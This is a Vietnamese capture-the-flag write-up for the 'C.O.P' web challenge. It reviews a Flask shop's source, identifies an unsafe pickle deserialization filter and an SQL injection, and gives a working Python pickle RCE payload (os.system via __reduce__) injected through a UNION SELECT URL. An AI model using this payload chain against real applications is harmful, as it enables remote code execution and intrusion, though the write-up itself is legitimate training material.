






## C.O.P




chall cung cấp 1 web bán hàng
lướt qua thì mình không thấy có feature gì nổi bật, mình view source

```
#app.py

from flask import Flask, g
from application.blueprints.routes import web
import pickle, base64

app = Flask(__name__)
app.config.from_object('application.config.Config')

app.register_blueprint(web, url_prefix='/')

@app.template_filter('pickle')
def pickle_loads(s):
	return pickle.loads(base64.b64decode(s))

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None: db.close()
```
mình thấy nó import module pickle tác dụng tương tự như serialization

tại document của python có warning


có thêm func pickle_load() để deserialization

nhưng func này được gọi ở đâu? Nó sẽ được gọi trong template HTML, ở chall này theo source thì như sau:


```
run.py 

from application.app import app
from application.database import migrate_db

with app.app_context():
    migrate_db()

app.run(host='0.0.0.0', port=1337, debug=False, use_evalex=False)
```
mình sẽ xem func `migrate_db()` thế nào.


nó định nghĩa mảng `items` chứa các thông tin về sản phẩm, sau đó hàm `map` sử dụng hàm `lambda` lên từng phần trong `items`. Nó chuyển `Item` thành chuỗi nhị phân bằng `pickle.dump(x)`, sau đó encode base64 trả về `shop`

tiếp đó đưa các giá trị của `shop` vào db
Mình đã check thêm về filter lỗi SQLi rồi, hoàn toàn không có cơ chế phòng thủ, chúng ta có thể lợi dụng lỗi này

### Okee, tổng hợp lại chúng ta có :
1. Sử dụng module nguy hiểm `pickle` để serialization/deserialization sản phẩm lưu trong db
2. Lỗi SQL injection

Việc cần làm bây giờ là tạo base64 của payload bằng pickle rồi tận dụng lỗi SQL injection thực thi nó.Mình tiến hành code python:
```
import pickle
import base64
import os

payload = 'cp flag.txt application/static/.'

class RCE:
    def __reduce__(self):
        return os.system, (payload,)

if __name__ == '__main__':
    print(base64.urlsafe_b64encode(pickle.dumps(RCE())).decode('ascii'))


#run python lấy payload
```

truy cập vào `http://94.237.59.199:33988/view/'UNION SELECT '<payload>`, sau đó truy cập tới `http://94.237.59.199:33988/static.flag.txt` nhận đc flag
